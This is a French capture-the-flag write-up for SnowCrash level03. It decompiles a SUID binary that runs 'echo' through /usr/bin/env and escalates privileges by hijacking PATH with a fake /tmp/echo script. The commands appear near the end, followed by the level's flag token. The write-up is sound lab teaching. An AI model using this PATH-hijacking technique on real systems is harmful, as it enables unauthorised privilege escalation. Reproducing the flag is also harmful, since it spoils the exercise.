

# Level 03
On a un exécutable **./level03** dans le home.
Que ce passe-t-il si on l'exécute ?
 `level03@SnowCrash:~$ ./level03`
`Exploit me`

Le message est clair, notre premier réflexe va être de décompiler l'exécutable.

Et pour cela, on a un super site internet à notre disposition: https://dogbolt.org

Celui-ci dispose de décompilateurs multiples dont **BinaryNinja**, mon préféré <3

Les décompilateurs proposent beaucoup d'erreurs de syntaxes et de code inutile, mais ils suffisent largement à **comprendre ce que fait le code** et a repérer les **appels fonctions exploitables**.

On va commencer par se concentrer sur le main(), voici ce que ça donne:

Le main() fait appel a **geteid()** et **geteuid()**, mais ne s'en sert pas vraiment..

Le seul élément pertinent et potentielement exploitable ici est le **return()** qui contient `system("/usr/bin/env echo Exploit me");`

`echo` est localisé grâce à `/usr/bin/env` qui renvoi à l'environnement, et plus précisement à la variable `PATH`. Il y a surement quelques chose à faire ici.

Modifier l'environnement de manière a **rediriger le programme sur un faux echo** ?

Peut-être, mais comment avoir le flag03 ? Si je fais `getflag`en tant que level03 je n'ai rien, pourquoi le faire avec un "faux" `echo`changerai la donne ?

Et bien si on fait un `ll ./level03`:

`-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 ./level03*`

Donc le fichier appartient à **flag03**.

On voit **"s"** dans les permissions ? On connait r(read), w(write) et x(execute), mais c'est quoi "s" ?

*La permission **"s"** dans les systèmes de fichiers Unix/Linux fait référence aux bits **SUID** (Set User ID) et **SGID** (Set Group ID).*
*Lorsque le bit **SUID** est défini sur un fichier, ce fichier est exécuté avec les **permissions de l'utilisateur propriétaire**, au lieu de celles de l'utilisateur qui l'exécute.*

Impressionant ! Donc quand j'exécute `./level03`, je l'exécute en tant que flag03 !

Tout est clair maintenant, si je fais un "faux" `echo`, je pourrais faire `getflag`dedans et il me reconnaitra en tant que `flag03`.

Place à l'action !

`/tmp/`est le seul dossier ou l'on peut créer des fichiers.

\>`vim /tmp/echo`

`#!/bin/sh`

`/bin/getflag`

\>`chmod +x /tmp/echo`

\>`export PATH="/tmp"`

Que la magie opère !

\>`./level03`

**Flag**: `qi0maab88jeaj46qoumi7maus`

